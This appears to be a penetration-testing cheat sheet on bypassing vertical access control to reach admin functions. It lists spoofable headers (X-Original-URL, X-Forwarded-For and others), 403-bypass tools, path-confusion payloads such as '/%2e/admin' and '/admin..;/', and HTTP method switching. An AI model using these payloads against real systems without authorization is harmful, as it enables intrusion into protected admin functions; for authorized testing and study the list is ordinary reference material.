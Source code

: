 # Vertical Access Control

## Acces Admin	
```
Defautlt Credentials
SqlInjection
Hidden Admin Panel
Increse own rank
```
## Tools
```
bypass-403
403-bypass
B1pass3r
```	
## Header
```
X-Original-URL: PATH
X-Rewrite-URL: PATH
For Parameters in URL change to Post add Parameters in Post Body if possible
```
### Different Header names
```
X-Original-URL
X-Forward-For
X-Forwarded-For-Original
X-Forwarded-Host
X-Forwarded-Scheme
Referer
Request-Uri
Base-Url
Client-IP
Http-Url
Proxy-Host
Proxy-Url
Real-Ip
Redirect
X-Client-IP
X-Custom-IP-Authorization
X-Forwarded-Server
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Originating-IP
X-Remote-IP
X-Rewrite-Url
X-True-IP
```
## Url Rewrite:
Miss match in url path e.g. 
```
/admin vs /adMiN

In Spring arbitray field extension might be possible:

/admin.anything
```
Different Combination and Payloads
```
/admin /deleteUser to /admin/deletuser or /admin/deletuser/
/%2e/admin	
/admin/.
/admin//
/admin/..
/;/admin
/;./admin/
/;//admin/
/admin..;/
```
## Different HTTP METHODs
```
POST
OPTIONS
PUT
HEAD
GET 
DELETE
PATCH
TRACE
```

